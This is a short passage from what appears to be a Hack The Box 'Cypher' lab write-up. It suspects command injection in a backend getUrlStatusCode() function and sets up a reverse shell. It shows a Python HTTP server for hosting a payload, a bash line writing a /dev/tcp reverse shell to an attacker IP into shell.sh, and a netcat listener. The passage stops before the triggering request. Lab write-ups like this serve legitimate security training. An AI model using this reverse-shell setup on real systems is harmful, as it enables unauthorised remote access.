 **`getUrlStatusCode()` is likely running shell commands in the backend**, e.g.,:

![Screenshot 2025-03-02 at 2.56.44 AM.png](/assets/Images/HTB_Cypher/Screenshot_2025-03-02_at_2.56.44_AM.png)

[Example]

Make a python server & [shell.sh](http://shell.sh) to get a reverse_shell & make netcat to listen

```bash
python3 -m http.server 80
```

```bash
echo "/bin/bash -i >& /dev/tcp/10.10.xx.xx/2004 0>&1" > shell.sh
```

```bash
rlwrap -f . -r nc -nvlp 2004
```

The request which will trigger a shell
